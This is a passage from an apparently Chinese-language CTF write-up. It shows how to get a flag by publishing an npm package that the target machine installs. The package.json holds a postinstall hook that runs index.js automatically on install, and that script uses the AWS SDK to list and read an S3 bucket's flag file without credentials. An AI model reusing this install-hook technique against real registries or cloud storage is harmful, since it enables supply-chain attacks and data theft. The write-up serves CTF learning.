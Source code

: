 读出 s3 里存的东西，从 serverless 里连接是不需要凭证的。

然后让靶机下载这个包。

![](https://www.zhaoj.in/wp-content/uploads/2019/06/1561308385a0d03c07be7bfdc8f4bc98cec33f937d-1024x597.png)

解压，看到开头有个 flag 文件。

![](https://www.zhaoj.in/wp-content/uploads/2019/06/15613085242c918e3912e5a7b9f8ce0198258a3d05-1024x586.png)

11、继续更改 package.json，提升版本。

```
{
  "name": "glzjintest1",
  "version": "1.1.0",
  "description": "",
  "main": "index.js",
  "scripts": {
	"postinstall": "cp index.js ../../test.js &amp;&amp; cd ../../ &amp;&amp; node test.js > result.txt; exit 0"
  },
  "author": "",
  "license": "ISC",
  "dependencies": {
	"aws-sdk": "^2.449.0"
  }
}
```

然后修改 index.js，为其添加读取这个 flag 文件的代码。

```
const AWS = require("aws-sdk");

const s3Parme = {
	// accessKeyId:"xxxxxxxxxxxxxxxx",
	// secretAccessKey:"xxxxxxxxxxxxxxxxxxx",
}

var s3 = new AWS.S3(s3Parme);

// Create the parameters for calling listObjects
var bucketParams = {
  Bucket : 'static.l0ca1.xyz',
};

// Call S3 to obtain a list of the objects in the bucket
s3.listObjects(bucketParams, function(err, data) {
  if (err) {
	console.log("Error", err);
  } else {
	console.log("Success", data);
  }
});

var fileParam = {
  Bucket : 'static.l0ca1.xyz',
  Key: 'flaaaaaaaaag/flaaaag.txt'
};

s3.getObject(fileParam, function(err, data) {
  if (err) console.log(err, err.stack); // an error occurred
  else     console.log(data);           // successful response
});

exports.showMsg = function () {
```
